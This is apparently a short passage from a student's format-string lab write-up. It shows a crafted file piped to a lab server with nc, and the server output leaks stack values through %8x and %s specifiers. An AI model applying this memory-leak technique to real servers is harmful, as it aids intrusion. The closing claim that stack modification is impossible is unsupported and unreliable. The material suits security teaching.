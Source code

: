 ```py
  f.write(content)
```

```bash
$ cat badfile | nc 10.9.0.1 9090
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0x080e9310
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd808
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | ++++11223344
server-10.9.0.5 |     1000
server-10.9.0.5 |  8049db5
server-10.9.0.5 |  80e5320
server-10.9.0.5 |  80e61c0
server-10.9.0.5 | ++++%8x   # The contents of the input buffer start here
server-10.9.0.5 | %8x
server-10.9.0.5 | %8x
server-10.9.0.5 | %8x
server-10.9.0.5 | %8x
server-10.9.0.5 | %s
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

In any case, modifications to the stack are not possible, because it is impossible to manually navigate to the address of the buffer.